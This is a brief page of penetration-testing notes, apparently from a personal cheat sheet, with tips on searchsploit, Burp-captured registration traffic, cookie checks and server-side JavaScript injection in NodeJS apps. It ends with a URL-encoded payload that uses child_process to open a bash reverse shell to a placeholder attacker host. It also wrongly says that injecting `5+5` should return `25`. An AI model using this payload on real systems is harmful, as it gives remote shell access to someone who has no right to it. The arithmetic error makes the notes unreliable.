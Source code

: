 # Misc


Always remember to searchsploit the name of whatever web-framework or CMS framework the website uses.


## Registration on websites

Often, we will be registering a new user on whatever site we are enumerating.
Consider running a registration from Burp so we can investigate the registration web traffic.

And always check your cookies after you have logged in.
Sometimes this will tell you how the site is managing admins from normal users.


## NodeJS and javascript injection

For simple NodeJS applications, remember to check if you can inject javascript to be run on the backend of the application.
If this isn't blind, you can do something like inputting `5+5` in the input parameter, and see if you extract the result `25`.
If this is the case, try to get a reverse shell with this:

```
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/${ATTACKER_IP}/${ATTACKER_PORT}+0>%261"')
```
